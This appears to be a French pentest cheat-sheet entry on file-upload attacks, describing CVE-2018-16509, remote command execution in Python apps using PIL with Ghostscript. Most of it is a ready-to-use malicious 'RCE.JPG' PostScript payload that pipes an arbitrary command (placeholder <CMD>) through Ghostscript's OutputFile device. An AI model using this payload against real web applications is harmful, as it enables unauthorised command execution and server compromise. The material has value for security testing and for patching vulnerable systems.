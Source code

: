 # File Upload

## CVE-2018-16509

(Python PIL/Pillow Remote Shell Command Execution via Ghostscript)

S'il est possible d'_upload_ une image sur une application Web python qui utilise `PIL` (`from PIL import Image`). Il se peut que celui-ci utilise également `ghostscript`(`/usr/local/bin/gs`). Dans ce cas, il est fort probable que la CVE soit exploitable.

```
# Contenu du fichier RCE.JPG :
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%<CMD>) currentdevice putdeviceprops
```
